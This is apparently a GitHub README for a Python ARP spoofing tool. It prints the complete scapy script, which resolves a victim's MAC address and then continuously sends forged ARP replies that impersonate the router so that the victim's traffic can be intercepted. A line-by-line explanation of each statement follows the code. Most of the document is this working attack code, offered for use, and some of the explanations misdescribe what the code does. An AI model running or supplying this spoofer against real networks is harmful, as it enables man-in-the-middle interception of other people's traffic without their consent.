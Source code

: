 ## Description 
***
ARPspoof is a tool written in python designed to perform ARP spoofing attack.
This tool allows the user to manipulate and intercept network traffic, is able to find MAC address from the victim IP address

ARP (address resolution protocol) a protocol that links an IP addres with a MAC of an endpoint.
## Code explanation
***
```
import subprocess, time
import scapy.all as scapy
from termcolor import colored as cl
from pyfiglet import figlet_format as ff
```
### `import subprocess, time`
***
`subprocess` is a module that allows you to spawn new processes.
`time` is a time management function.

### `import scapy.all as scapy`
***
Scapy is a powerful interactive packet manipulation library written in Python. Scapy is able to forge or decode packets of a wide number of protocols, send them on the wire, capture them, match requests and replies, and much more. (https://scapy.net/)
import `scapy.all` assigns the alias `scapy`.

### `from termcolor import colored as cl`
***
Termcolor is an ANSI color formatting for output in terminal.  (https://pypi.org/project/termcolor/)
import the function `colored` from `termcolor` library and assigns alias `cl`.

### `from pyfiglet import figlet_format as ff`
***
It takes ASCII text and renders it in ASCII art fonts
import `filglet_format` from `pyfiglet` and assigns alias `ff`.

```
def get_mac_address(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
    broadcast_arp_request = broadcast/arp_request
    data = scapy.srp(broadcast_arp_request, timeout=1,        verbose=False)[0]
    mac = data[0][1].hwsrc
    return mac
```

### def get_mac_address(ip)
***
definition of the function `get_mac_address`.

### arp_request = scapy.ARP(pstd=ip)
***
scapy.ARP create an ARP request, protocol destination (pdst) set the destination IP.


### broadcast = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
***
create an ethernet packet, with broadcast MAC setted.

### broadcast_arp_request = broadcast/arp_request
***
we used `/` to combine both ARP and broadcast ethernet Packet, this will make the endpoint to answer back with his MAC address.

### data = scapy.srp(broadcast_arp_request, timeout=1, verbose=False)[0]
***
`srp()` function send packets and recives packets at layer 2, `broadcas_arp_request` the packet we created, 
`timeout=1` wait 1 second,
`false` disable the detailed output, 
`srp` return a tuple, where the first element contain all the responses, [0] take that list

### mac = data{0}{1}.hwsrc
***
the MAC address got extracted from the answer, `data` take the element from the list that contains request and response, `[1]` take the request,
`hwsrc` contains the MAC address of the endpoint who sended the response

### return = mac
***
output the MAC 

```
def arp_spoofing(tip, rip):
    tmac = get_mac_address(tip)
    cnt = 0
    while True:
        try:
            print(cl('='*50, 'red'))
            print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
            print(cl('='*50, 'red'))
            packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac, psrc=rip)
            scapy.send(packet, verbose=False)
            cnt += 2
            print(cl(f'Packets sent: {str(cnt)}', 'green'))
            time.sleep(1)
            subprocess.call('clear', shell=True)
        except KeyboardInterrupt:
            print(cl(f'Quitting program...', 'red'))
            break
```

### def arp_spoofing(tip, rip)
***
definition of the function `arp_spoofing(tip, rip)` target ip/router ip
### tmac = get_mac_address(tip)
call the function `get_mac_address`, take the MAC of the target ip, the result is stored into tmac

### cnt = 0
***
count the packet and track the number of packets

``` 
while True:
        try:
            print(cl('='*50, 'red'))
            print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing
            program\n\t\t\t-An AYLIT production', 'red'))
            print(cl('='*50, 'red'))
            packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac psrc=rip)
            scapy.send(packet, verbose=False)
            cnt += 2
            print(cl(f'Packets sent: {str(cnt)}', 'green'))
            time.sleep(1)
            subprocess.call('clear', shell=True)
        except KeyboardInterrupt:
            print(cl(f'Quitting program...', 'red'))
            break
```
***
`print(cl('='*50, 'red'))
`print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing
`program\n\t\t\t-An AYLIT production', 'red'))print(cl('='*50, 'red'))`
graphic stuff

### packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac psrc=rip)
***
create a packet containing all the components, `op=2` specify the kind of ARP operation, "2" specify "response", `pdst=tip` set the destination IP, `hwdst=tmac` set the MAC, `psrc=rip` set the source IP that will be covered with rip

### scapy.send(packet, verbose=False)
***
send the packet, `false` supress the detailed output


`cnt += 2` +2 on the counter
`print(cl(f'Packets sent: {str(cnt)}', 'green')` print the number of packets sent
`time.sleep(1)` introduce 1 second pause

### subprocess.call(`clear`, shell=True)
***
clear the terminal

### except KeyboardInterrupt: print(cl(f'Quitting program...', 'red')) break
***
when a user press `ctrl + c` an exit message get printed, `break` quit the cicle

```
subprocess.call('clear', shell=True)

print(cl('='*50, 'red'))
print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
print(cl('='*50, 'red'))

target_ip = input(cl("Enter the target's IP:", 'yellow'))
router_ip = input(cl("Enter the router's IP:", 'yellow'))
subprocess.call('clear', shell=True)

arp_spoofing(target_ip, router_ip)
```

### subprocess.call('clear', shell=True)
***
clear the terminal

`print(cl('='*50, 'red'))
`print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
`print(cl('='*50, 'red'))`  
***
graphic stuffs

### target_ip = input(cl("Enter the target's IP:", 'yellow'))
***
ask the user to insert target IP

### router_ip = input(cl("Enter the router's IP:", 'yellow'))
***
ask the user to insert router IP

### subprocess.call('clear', shell=True)
clear the terminal

### arp_spoofing(target_ip, router_ip)
***
call the function `arp_spoofing` using the target/router IP asked
